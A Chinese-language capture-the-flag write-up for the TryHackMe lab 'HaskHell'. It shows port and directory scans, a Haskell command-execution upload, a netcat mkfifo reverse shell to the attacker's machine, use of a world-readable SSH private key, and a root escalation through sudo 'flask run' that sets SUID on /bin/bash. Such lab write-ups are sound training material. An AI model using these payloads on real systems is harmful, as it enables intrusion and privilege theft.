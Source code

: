 ```yaml
---
sidebar_position: 112
tags: [Easy, Linux, 命令注入, SUDO]
title: "HaskHell"
description: "HaskHell"
sidebar_label: "HaskHell"
slug: /tryhackme/112
---
```


# HaskHell

## 端口扫描

```bash
root@ip-10-10-58-118:~/haskhell# nmap -sTCV -p 22,5001 --min-rate 1000 10.10.64.91

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-23 07:23 BST
Nmap scan report for ip-10-10-64-91.eu-west-1.compute.internal (10.10.64.91)
Host is up (0.00014s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (EdDSA)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
MAC Address: 02:54:61:F2:3B:F7 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
```

## 5001

进行目录扫描

```bash
root@ip-10-10-58-118:~/haskhell# gobuster dir -u http://10.10.64.91:5001/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.64.91:5001/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2023/09/23 07:42:06 Starting gobuster
===============================================================
/submit (Status: 200)
```

通过访问网站我知道这是一个作业提交页面, 我们在该网站上传haskell 然后网站会将其进行解析并执行, 因此我使用 GPT 编写了一个程序用以执行命令

```bash
import System.Process
import System.IO

main :: IO ()
main = do
  (_, Just hout, _, _) <- createProcess (shell "whoami") { std_out = CreatePipe }
  output <- hGetContents hout
  putStrLn output
```

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-133444.png)

## 后渗透

### flask

我利用此来获取了一个 Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.58.118 4444 >/tmp/f
```

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-133445-1.png)

### flask —> prof

我在用户 prof 的家目录发现其存在公共读的 ssh 密钥并且没有密码所以我们可以借此来完成登陆操作

```bash
(remote) flask@haskhell:/home$ ls -al prof/
total 44
drwxr-xr-x 7 prof prof 4096 May 27  2020 .
drwxr-xr-x 5 root root 4096 May 27  2020 ..
-rw-r--r-- 1 prof prof  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 prof prof 3771 Apr  4  2018 .bashrc
drwx------ 2 prof prof 4096 May 27  2020 .cache
drwx------ 4 prof prof 4096 May 27  2020 .gnupg
drwxrwxr-x 3 prof prof 4096 May 27  2020 .local
-rw-r--r-- 1 prof prof  807 Apr  4  2018 .profile
drwxrwxr-x 2 prof prof 4096 May 27  2020 __pycache__
drwxr-xr-x 2 prof prof 4096 May 27  2020 .ssh
-rw-r--r-- 1 root root   26 May 27  2020 user.txt
(remote) flask@haskhell:/home$ cd prof/
(remote) flask@haskhell:/home/prof$ ls
__pycache__  user.txt
(remote) flask@haskhell:/home/prof$ cd .ssh/
(remote) flask@haskhell:/home/prof/.ssh$ ls -al
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
(remote) flask@haskhell:/home/prof/.ssh$
```

使用我们得到的私钥进行登陆即可

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-133445-2.png)

### prof —> root

我发现用户 prof 具有 SUDO 特权

```bash
$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

我们可以借此来完成一些操作

```bash
$ echo 'import os; os.system("chmod u+s /bin/bash")' > root.py
$ export FLASK_APP=root.py
$ sudo /usr/bin/flask run
Usage: flask run [OPTIONS]

Error: Failed to find application in module "root".  Are you sure it contains a Flask application?  Maybe you wrapped it in a WSGI middleware or you are using a factory function.
$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```